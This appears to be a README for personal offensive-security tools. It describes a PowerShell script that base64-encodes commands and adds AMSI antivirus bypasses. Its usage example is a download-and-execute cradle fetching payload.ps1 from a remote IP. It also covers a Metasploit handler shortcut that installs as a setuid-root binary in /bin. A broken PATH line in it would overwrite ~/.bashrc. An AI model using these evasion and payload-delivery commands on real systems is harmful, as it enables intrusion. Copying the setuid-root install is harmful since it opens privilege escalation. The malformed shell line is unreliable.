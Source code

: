 #AMSIb64.ps1

A powershell b64 converter with options to add AMSI bypasses.

## Usage

powershell AMSIb64.ps1 -amsi context -c 'IEX (New-Object Net.Webclient).downloadstring("http://192.168.49.101/payload.ps1")'

# msf
A shortcut to starting an msfconsole with the multihandler already setup. Accepts a port. runs with root priveleges without sudo.

## Install

chmod +x ./msfsetup.sh
sudo ./msfsetup.sh

if /opt isn't in your path, then add it or have script move msf somewhere that is. 

### Option 1: Adding /opt to path
echo 'export PATH="$PATH:/opt" > ~/.bashrc'

### Option 2: changing install script to place in path

#!/bin/bash
```
chmod +x msf
chmod +s msf

mv ./msf /bin/msf
chown root:root /bin/msf
```



